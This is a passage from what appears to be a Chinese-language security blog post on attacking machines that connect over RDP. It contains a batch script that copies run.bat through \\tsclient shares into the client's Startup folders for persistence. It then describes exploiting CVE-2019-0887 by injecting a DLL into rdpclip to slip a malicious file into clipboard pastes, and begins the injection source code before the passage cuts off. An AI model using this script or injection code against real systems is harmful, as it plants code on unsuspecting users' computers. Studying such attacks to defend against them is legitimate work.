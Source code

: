 copy run.bat \\tsclient\c\temp >nul 2>&1
del /q %TEMP%\temp_00.txt >nul 2>&1
set dirs=dir /a:d /b /s \\tsclient\c\users\*startup*
echo|%dirs%|findstr /i "Microsoft\Windows\Start Menu\Programs\Startup">>"%TEMP%\temp_00.txt"
for /F "tokens=*" %%a in (%TEMP%\temp_00.txt) DO (
	copy run.bat "%%a" >nul 2>&1
	copy C:\temp\run.bat "%%a" >nul 2>&1
	copy \\tsclient\c\temp\run.bat "%%a" >nul 2>&1
)
del /q %TEMP%\temp_00.txt >nul 2>&1

```
测试中第一次没成功，好像是权限问题，拒绝访问。  
![](/img/210111_refuse.jpg)  
换了个环境测试，成功写入。  
![](/img/210111_success.jpg)  


## 利用CVE-2019-0887进行攻击
原理这里不做进一步讲解，可以参考文章2.  
这里只做简单说明，向rdpclip进程中注入dll，hook几个关键函数，对Hdrop数据进行修改，在客户端复制的时候触发，同时粘贴多个文件，路径可自定义（我没成功）。  
在触发成功时，可以看到ClipSpy中FileGroupDescriptorW中包含了两个文件名。  
上面的是真实复制的文件。  
![](/img/210111_clipspy1.jpg)  
下面的是hook后增加的恶意文件，我这里没有成功，只能同时复制到桌面，没有能复制到启动目录（我改了代码），原始的代码编译的dll，一触发粘贴，甚至刚复制完，rdpclip进程就崩溃了。   
![](/img/210111_clipspy2.jpg)  
粘贴后，桌面出现两个文件。  
![](/img/210111_desktop.jpg)  
测试中，就在win7上成功过，其他的都有问题，就在win7上也时常出现崩溃的问题，没有好的办法解决。   
贴下注入的代码，参考3gstudent的代码。
```
#include <windows.h>
#include <stdio.h>
#include <tchar.h>
#include <tlhelp32.h>
#pragma comment(lib,"Advapi32.lib") 
typedef NTSTATUS(NTAPI* pfnNtCreateThreadEx)
(
	OUT PHANDLE hThread,
	IN ACCESS_MASK DesiredAccess,
	IN PVOID ObjectAttributes,
	IN HANDLE ProcessHandle,
	IN PVOID lpStartAddress,
	IN PVOID lpParameter,
	IN ULONG Flags,
	IN SIZE_T StackZeroBits,
	IN SIZE_T SizeOfStackCommit,
	IN SIZE_T SizeOfStackReserve,
	OUT PVOID lpBytesBuffer);

#define NT_SUCCESS(x) ((x) >= 0)

typedef struct _LSA_UNICODE_STRING {
	USHORT Length;
	USHORT MaximumLength;
	PWSTR Buffer;
} LSA_UNICODE_STRING, *PLSA_UNICODE_STRING, UNICODE_STRING, *PUNICODE_STRING;
